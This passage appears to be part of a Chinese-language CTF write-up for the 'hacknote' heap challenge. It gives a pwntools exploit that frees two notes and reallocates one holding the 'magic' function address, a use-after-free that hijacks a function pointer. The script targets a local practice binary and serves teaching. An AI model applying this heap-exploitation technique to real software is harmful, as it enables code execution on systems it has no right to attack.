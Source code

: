 ```shell
No symbol table is loaded. Use the "file" command.
```

#### 查询magic等函数符号及其地址
``` shell
disassemble magic
```

得到的输出如下：

![[Pasted image 20241222170413.png]]

#### 代码

``` python

#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

r = process('./hacknote')


def addnote(size, content):
    # 它等待接收到 `:` 字符后，发送数字 `1`，表示选择添加笔记
    r.recvuntil(":")
    r.sendline("1") 
    r.recvuntil(":")
    r.sendline(str(size)) # 输入content size
    r.recvuntil(":")
    r.sendline(content) # 输入content内容


def delnote(idx):
    r.recvuntil(":")
    r.sendline("2")
    r.recvuntil(":")
    r.sendline(str(idx))


def printnote(idx):
    r.recvuntil(":")
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(idx))

# `gdb.attach(r)` 将远程连接 `r` 附加到 GDB 调试器（GNU Debugger）。这允许攻击者在程序执行时暂停并查看程序的内部状态，比如寄存器、堆栈、内存等信息。
gdb.attach(r)
# magic = 0x08048986   # magic地址需要修改的，按照前面查询得到的进行修改!!!
magic = 0x0000555555555574

addnote(32, "aaaa") # add note 0
addnote(32, "ddaa") # add note 1

delnote(0) # delete note 0
delnote(1) # delete note 1

addnote(8, p64(magic)) # add note 2 ，修改成64位的

printnote(0) # print note 0

r.interactive()

```